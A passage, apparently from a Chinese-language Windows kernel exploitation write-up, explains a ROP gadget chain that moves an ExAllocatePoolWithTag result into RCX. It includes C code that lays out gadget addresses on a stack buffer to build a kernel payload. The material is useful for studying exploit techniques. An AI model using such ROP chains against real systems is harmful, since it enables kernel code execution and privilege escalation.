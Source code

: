 这样就能让 rcx=rax 了，布局后栈的情况

```bash
ulExAllocatePoolWithTag
pop_rdi
pop_rcx
push_rax_rdi
```

1.  `pop rdi`：`RDI` =`pop rcx地址`，出栈一个，`rsp`指向`push_rax_rdi`，然后`ret`跳转到该地址
2.  `push rax`：将申请的内核内存地址放到了栈上，`rsp`指向值就为该内存的地址
3.  `push rdi; ret`：等效于`jmp rdi`，于是`ret`到了`pop rcx`
4.  `pop rcx`：此时的栈顶为 2 中入栈的`rax`

[![](assets/1706090578-c6789214983ce68a1860afbaa71ee8c6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124145330-485857b4-ba85-1.png)

成功让`RCX=RAX`

[![](assets/1706090578-24ece56e2023e8a0e9bb01768102ab5b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124145339-4e2ab060-ba85-1.png)

这里暂时设计 payload

```bash
//typedef unsigned long long funcaddr;

    *(funcaddr*)(stackspace + 0x818) = (funcaddr)pop_rcx;
    *(funcaddr*)(stackspace + 0x818 + 8) = (funcaddr)0;
    *(funcaddr*)(stackspace + 0x818 + 0x10) = (funcaddr)pop_rdx;
    *(funcaddr*)(stackspace + 0x818 + 0x18) = (funcaddr)0x100;
    *(funcaddr*)(stackspace + 0x818 + 0x20) = (funcaddr)pop_r8;
    *(funcaddr*)(stackspace + 0x818 + 0x28) = (funcaddr)0xDEAD;
    *(funcaddr*)(stackspace + 0x818 + 0x30) = (funcaddr)ulExAllocatePoolWithTag;

    *(funcaddr*)(stackspace + 0x818 + 0x38) = (funcaddr)pop_rdi;    //rsp = 0
    *(funcaddr*)(stackspace + 0x818 + 0x40) = (funcaddr)pop_rcx;    //rdi = rcx --- been force to zero
    *(funcaddr*)(stackspace + 0x818 + 0x48) = (funcaddr)push_rax_rdi;//ret rdi: pop_rcx value changed

    *(funcaddr*)(stackspace + 0x818 + 0x50) = (funcaddr)pop_rdx;        //此处被低位被清零
```